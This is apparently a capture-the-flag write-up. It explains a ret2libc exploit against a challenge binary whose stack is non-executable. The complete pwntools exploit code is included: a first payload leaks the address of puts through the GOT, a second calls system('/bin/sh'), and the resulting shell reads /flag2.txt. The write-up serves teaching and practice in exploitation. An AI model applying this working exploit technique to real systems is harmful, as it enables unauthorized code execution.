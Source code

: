 
The *Easy* level challenge of this program allows us to call ``win`` function to get the first flag. At this level requires us to get the second flag ``/flag2.txt`` via shell. The stack is non executable, we can't just throw some shellcode to it, we need to try ``ret2libc`` method. To call``system("bin/sh")``, we need address of ``system``, address of the ``binsh`` string and a return address for ``system``. To find out the actuall address of some function in libc we can use a relative address of the function we want to another function we can easily find out the address. In this case, we call ``puts@plt`` to print the actual address of it at runtime which is stored in table ``got``. We need to return send another payload to call ``system``, so we need to return to a function that allow us to go through the whole process again, the payload would be ``address of puts@plt + address of main + address of put@got``. 


```
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload = b'\x90'*60
payload += pwn.p32(puts_plt)
payload += pwn.p32(elf.sym["main"])
payload += pwn.p32(puts_got)

pr.sendlineafter("Input some text: ", payload)
pr.readuntil('Return address: ')
pr.readline()
pr.readline()
puts_addr = int.from_bytes(pr.read(4).strip().ljust(4, b'\x00'), 'little')
print('puts', hex(puts_addr))
```


When we have the address of ``puts``, we can find the relative address of system and binsh string via [libc.blukat.me](https://libc.blukat.me/?q=puts%3A0xf7d98b40&l=libc6_2.27-3ubuntu1_i386), as we what it exit when ``system`` call returns, we also need to find out address of ``exit``.

```
sys_addr = puts_addr - 0x2a940
binsh_addr = puts_addr + 0x11658f
exit_addr = puts_addr - 227184
print('sys', hex(sys_addr))
print('binsh', hex(binsh_addr))
payload = b'\x90'*60
payload += pwn.p32(sys_addr)
payload += pwn.p32(exit_addr)
payload += pwn.p32(binsh_addr)

pr.sendlineafter("Input some text: ", payload)
pr.sendline("cat /flag2.txt")
print(pr.readall(2).decode())
```

When we get a shell, ``cat`` command brings us the flag.
